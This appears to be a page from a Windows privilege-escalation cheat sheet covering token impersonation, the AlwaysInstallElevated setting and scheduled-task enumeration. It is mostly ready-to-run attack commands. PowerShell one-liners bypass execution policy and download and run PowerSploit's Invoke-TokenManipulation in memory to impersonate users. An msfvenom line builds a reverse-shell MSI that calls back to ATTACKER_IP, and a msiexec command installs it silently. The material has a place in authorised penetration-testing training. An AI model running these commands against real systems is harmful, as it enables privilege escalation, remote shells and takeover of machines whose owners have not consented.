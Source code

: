 ## Token Impersonation

### List Tokens
```powershell
# Using Incognito (Metasploit)
load incognito
list_tokens -u

# Using PowerShell
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1'); Invoke-TokenManipulation -ShowAll"
```

### Impersonate Tokens
```powershell
# Using Incognito
impersonate_token DOMAIN\\Username

# Using PowerShell
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1'); Invoke-TokenManipulation -ImpersonateUser -Username 'DOMAIN\\user'"
```

### Check for Always Install Elevated
```powershell
# Check registry settings
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both are 1, create MSI payload and execute
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f msi -o evil.msi
msiexec /quiet /qn /i C:\path\to\evil.msi
```

## Scheduled Tasks

### Enumerate Scheduled Tasks
```powershell
# List all scheduled tasks
schtasks /query /fo LIST /v

# PowerShell method
Get-ScheduledTask | where {$_.TaskPath -notlike "*Microsoft*"} | ft TaskName,TaskPath,State

# Check for writable task files
icacls C:\Windows\Tasks\* /T | findstr /i "(F) (M) (W) :\"
```
